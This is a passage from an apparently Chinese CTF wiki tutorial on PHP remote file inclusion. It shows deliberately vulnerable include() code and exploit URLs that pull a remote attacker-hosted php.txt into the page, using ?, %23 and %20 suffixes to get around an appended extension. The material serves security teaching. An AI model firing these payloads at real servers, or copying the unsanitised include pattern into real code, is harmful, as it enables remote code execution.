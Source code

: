 	include($filename);
?>
```

漏洞利用:
``http://www.ctfs-wiki.com/FI/index.php?filename=http://192.168.91.133/FI/php.txt``

# 有限制的远程文件包含

有限制远程文件包含是指当代码存在特定的前缀或者.php 、.html 等扩展名过滤时，需要绕过才能执行URL中的恶意代码
示例代码：
```
<?php
	include($_GET['filename']."html");
?>
```

## 问号绕过
可以在问号 (?) 后面添加HTML字符串，问号后面的扩展名 .html 会被当做查询，从而绕过。

``http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt?``

## ＃号绕过
可以在＃号后面添加HTML字符串，＃号会截断后面的扩展名 .html ，从而绕过。＃号URL编码为%23。

``http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%23``

## 空格绕过
利用Burp Suite fuzz发现，除了 ？和 ＃ 号，空格也可以绕过。

``http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%20``


